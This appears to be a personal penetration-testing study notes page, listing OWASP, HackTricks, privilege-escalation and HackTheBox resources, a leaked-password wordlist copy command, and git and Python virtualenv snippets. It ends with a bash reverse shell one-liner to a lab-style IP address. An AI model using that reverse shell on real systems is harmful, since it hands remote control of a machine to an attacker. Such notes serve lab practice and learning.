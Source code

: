 Reminder: Github uses advanced search syntax - press `t`. Or clone locally and grep

`cp /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt .`

# RESOURCES
OWASP Projects
- [OWASP Web Security Testing Guide (WSTG)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/)
- [OWASP Cheat Sheet](https://cheatsheetseries.owasp.org/index.html)
     [OWASP Secure Coding Practices](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/stable-en/)

HackTricks
- [HackTricks](https://book.hacktricks.wiki/en/index.html)
- [HackTricks Cloud](https://cloud.hacktricks.wiki/en/index.html)

PrivEsc
- [GTFOBins](https://gtfobins.github.io/)
- [Linux PE Checklist](https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html)
- [Windows PE Checkist](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html)
- https://infosecwriteups.com/hackthebox-academy-privilege-escalation-ca0a8ad2259e

Git
- [GitHub CheatSheet](https://training.github.com/downloads/github-git-cheat-sheet/)

Enumeration
- [Server Enum](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

Kernel
- [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

Kindle Books

HTB
- https://academy.hackthebox.com/dashboard
 
# COMMON CODE SNIPPETS
### Git
```
git clone https://github.com/Jacob-CL/Notes.git
git commit -m "message"
git push
```

If you've made edits in GitHub, to merge those down locally: `git pull` (This is `git fetch` and `git merge` in one)

### Python Virtual Environment
```
# Create the virtual environment
python3 -m venv v-env

# Start virtual environment
source v-env/bin/activate

# Stop virtual environment
deactivate
```
### Bash Reverse Shell
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1
```